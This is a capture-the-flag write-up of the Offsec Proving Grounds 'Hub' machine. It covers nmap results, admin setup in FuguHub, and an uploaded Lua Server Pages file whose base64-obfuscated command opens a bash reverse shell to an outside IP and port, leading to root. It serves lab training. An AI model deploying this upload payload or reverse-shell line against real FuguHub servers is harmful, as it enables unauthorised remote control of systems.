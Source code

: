 ```yaml
---
title: "Proving grounds Practice: Hub"
layout: post
date: 2023-08-18 06:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Practice
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds practice linux machine writeup"
---
```


## Nmap

```sh
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp   open  http     nginx 1.18.0
8082/tcp open  http     Barracuda Embedded Web Server
| http-methods: 
|   Supported Methods: OPTIONS GET HEAD PROPFIND PATCH POST PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
|_  Potentially risky methods: PROPFIND PATCH PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
| http-webdav-scan: 
|   Server Type: BarracudaServer.com (Posix)
|   Server Date: Fri, 18 Aug 2023 04:51:55 GMT
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, PATCH, POST, PUT, COPY, DELETE, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK
|_  WebDAV type: Unknown
|_http-title: Home
|_http-favicon: Unknown favicon MD5: FDF624762222B41E2767954032B6F1FF
|_http-server-header: BarracudaServer.com (Posix)
9999/tcp open  ssl/http Barracuda Embedded Web Server
|_http-title: Home
| http-webdav-scan: 
|   Server Type: BarracudaServer.com (Posix)
```

## Web

![img](/assets/images/CTF/Proving_Grounds/Hub/fugu01.png)

Fuguhub is vulnerable to [Remote Code Execution](https://github.com/ojan2021/Fuguhub-8.1-RCE)

**Set administrative account**

![img](/assets/images/CTF/Proving_Grounds/Hub/admin01.png)

**Login to the admin account**

![img](/assets/images/CTF/Proving_Grounds/Hub/admin-login.png)

- Direct to the Web file manager.
- Click upload file and upload below script.

## Remote Code Execution Exploit

```lsp
<div style="margin-left:auto;margin-right: auto;width: 350px;">

<div id="info">
<h2>Lua Server Pages Reverse Shell</h2>
<p>Delightful, isn't it?</p>
</div>

<?lsp if request:method() == "GET" then ?>
   <?lsp os.execute("echo c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40NS4xODcvMTIzNCAwPiYx | base64 -d | bash") ?>
<?lsp else ?>
   You sent a <?lsp=request:method()?> request
<?lsp end ?>

</div>
```

- Change the IP address and PORT in the base64 encoded value and save file as `.lsp`. 
- Upload the file to file server and visit the uploaded file to trigger the reverse shell.

![img](/assets/images/CTF/Proving_Grounds/Hub/rce-trigger.png)

![img](/assets/images/CTF/Proving_Grounds/Hub/root.png)

Root Obtained.

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).